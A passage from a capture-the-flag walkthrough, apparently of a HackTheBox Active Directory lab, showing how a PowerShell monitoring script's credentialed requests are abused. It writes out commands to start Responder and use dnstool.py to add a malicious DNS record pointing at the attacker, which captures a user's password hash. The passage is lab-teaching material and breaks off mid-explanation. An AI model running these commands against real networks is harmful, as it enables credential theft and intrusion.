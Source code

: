 
#### Finding a user script: {#finding-a-user-script}

-   I connect to the IT share and find a file called `downdetector.ps1`
-   {{< figure src="/ox-hugo/2024-09-29-084208_.png" >}}
-   {{< figure src="/ox-hugo/2024-09-29-084834_.png" >}}
    -   Looking at the script it checks if any hosts with a DNS name that starts with `web` are down every 5 minutes and then emails `Ted.Graves`. What using is particularly interesting about this though is that it sends a **Credentialed Request** using the user `Ted.Graves` `-UseDefaultCredentials` to each of the entries; meaning if we can get it to try to authenticate to us by adding a fake `DNS` entry we can potentially grab `Ted.Graves` credentials!!! As he is receiving these emails we can safely assume he is either part of IT or networking (plus this is probably the script that was referenced in the PDF's we pulled).


## 3. Lateral Movement &amp; Privilege Escalation: {#3-dot-lateral-movement-and-privilege-escalation}


### Adding a Malicious DNS Entry using `dnstool.py`: {#adding-a-malicious-dns-entry-using-dnstool-dot-py}

-   We can use the tool [dnstool](https://github.com/dirkjanm/krbrelayx) which is part of [krbrelayx](https://github.com/dirkjanm/krbrelayx).
    -   This tool enables us to "Add/modify/delete Active Directory Integrated DNS records via LDAP."

-   **Clone The Repo**:
    -   `git clone https://github.com/dirkjanm/krbrelayx.git /opt/krbrelayx`

-   **I start** [responder](https://www.kali.org/tools/responder/):
    -   `sudo responder -v -I tun0`
    -   {{< figure src="/ox-hugo/2024-09-29-100651_.png" >}}

-   **I make `dns`  entry**:
    -   `python3 dnstool.py $box -u intelligence\\$user -p $pass --action add --record web-bloodstiller --data $myip --type A`
    -   +Note+:
        -   It requires the hostname/ip as an argument but there is no flag for it, it just accepts it.
        -   {{< figure src="/ox-hugo/2024-09-29-101431_.png" >}}

-   **We capture a hash for** `ted.graves`:
    -   {{< figure src="/ox-hugo/2024-09-29-101932_.png" >}}


#### Why can we just add malicious DNS entries to a Domain Controller?: {#why-can-we-just-add-malicious-dns-entries-to-a-domain-controller}

-   So I had to go searching for this information as I was not sure if this vulnerability was the result of our user `Tiffany.Molina` having this privilege.
    -   There is no evidence she is part of any DNS administration groups:
        -   {{< figure src="/ox-hugo/2024-09-29-152328_.png" >}}
    -   I read some sources saying that by default any authenticated user can add DNS entries in an AD environment.
        -   [ippsec](https://ippsec.rocks/#) also states this [here](https://youtu.be/Jg_BjkxdtsE?si=k7tT5SqHvuZYvPn-&t=1666)
        -   Whereas Kevin Robertson (creator of [PowerMad](https://github.com/Kevin-Robertson/Powermad) &amp; [Inveigh](https://github.com/Kevin-Robertson/Inveigh/tree/dev)) states:
